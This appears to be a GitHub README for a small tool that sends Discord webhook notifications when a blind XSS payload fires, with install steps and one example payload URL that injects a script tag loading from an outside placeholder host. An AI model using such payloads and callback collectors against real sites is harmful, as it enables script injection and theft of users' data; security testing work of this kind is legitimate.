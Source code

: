 <h3 align="center"> Send XSS Report Via Discord WebHook  </h4>
<p align="center">
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="#preview">Preview</a> 

</p>

---

This Code Send Notification on Discord TextChannel When Xss payload it's Worked .

## Installation
 Clone Repository :
```
git clone github.com/zi-gax/XSS-WebHook
```
Add Files To Web Page Directory And Run This Code For Wirte File Permission :


```
chown www-data:www-data reports/
```

Edit WebHook url In index.php :
```
line 9 $webhookUrl 
```

## Preview

![photo_2023-07-02_01-22-59](https://github.com/zi-gax/XSS-WebHook/assets/67065043/c1443925-0b1d-462d-81ac-432cf42c6efd)

## Usage

### For Example 
use link web page in payload :
```
https://brutelogic.com.br/gym.php?p01=test2%3C/title%3E%3Cscript%20src=//site.tld%20%3E%3C/script%3E
```